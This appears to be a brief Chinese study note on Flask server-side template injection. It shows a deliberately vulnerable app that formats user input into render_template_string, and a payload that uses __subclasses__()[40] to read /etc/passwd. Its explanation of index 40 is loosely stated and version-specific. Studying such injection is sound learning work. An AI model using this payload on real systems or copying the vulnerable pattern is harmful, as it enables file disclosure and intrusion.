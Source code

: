 # 模板注入
#!/usr/bin/env python3
```
from flask import Flask, request, abort, render_template_string
import os.path

app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    name = request.args.get('name')
    if name is not None:
        return render_template_string(open('templates/hello.html').read().format(name=name))

    return render_template_string(open('templates/index.html').read())

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

`{{''.__class__.__base__.__subclasses__()[40]('/etc/passwd', 'r').read()}}`

随便一个类,__base__找到基类，然后subclasses即可看到这个pyhton里面有哪些类，选取第四十个是__file__，然后即可初始化一个文件，并且读

